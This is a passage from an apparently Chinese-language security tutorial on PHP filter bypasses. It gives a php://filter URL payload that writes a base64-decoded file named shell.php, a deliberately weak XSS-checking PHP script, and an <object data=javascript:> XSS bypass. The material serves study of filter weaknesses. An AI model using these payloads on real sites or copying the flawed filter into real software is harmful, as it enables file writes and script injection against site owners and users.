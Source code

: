 `__halt_compiler()`:[php文档介绍](https://www.php.net/manual/zh/function.halt-compiler.php)

![image-20211124183931113](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-c276d05c0190d8d82395c02fe69e4e808b8b6c2e.png)

绕过一点压力也没有。

![image-20211124184123910](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8109dc6cf17f1a441c4a824cf47221a4047bb041.png)

**Bypass 3:**

Bypass 3并不是本文的想要说的，且思路非常常规，CTF已经玩到烂的伪协议绕过，简单提提:

```php
http://localhost:8887/xss.php?file=php://filter/write=convert.base64-decode/resource=shell.php&c=PD9waHAgcGhwaW5mbygpOz8%2b
```

![image-20211124192220531](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-2e3a55f03a429426c5fa894b330580f95d44ef52.png)

### 0x2.2 绕过XSS过滤

假设存在如下一个场景，需要造成XSS:

```php
<?php
function checkstr($str)
{
   if (preg_match("/<(\/?)(script|i?frame|style|html|\?php|body|title|link|meta)([^>]*?)>/is", $str, $match)) {
       //front::flash(print_r($match,true));
       return false;
  }
   if (preg_match("/(<[^>]*)on[a-zA-Z]+\s*=([^>]*>)/is", $str, $match)) {
       return false;
  }
   return true;
}

$xss = $_GET['xss'];
if(checkstr($xss)){
    echo $xss;
}else{
    echo 'No, Hacker!';
}
```

第一层过滤就已经过滤`<script>`、`<iframe>`等标签的各种变形，而这样`<script`不闭合的话浏览器是没办法解析的。

而像`<a/href="html实体">`这种非自动触发的方法，太鸡肋了，绕起来没很大意义,下面依然给出几种不同的思路绕过。

**Bypass 1:**

```php
http://localhost:8887/xss.php?xss=%3Cobject/data=javascript:alert(1)%3E
```

直接通过`object/data`，来实现无onevent事件执行xss。
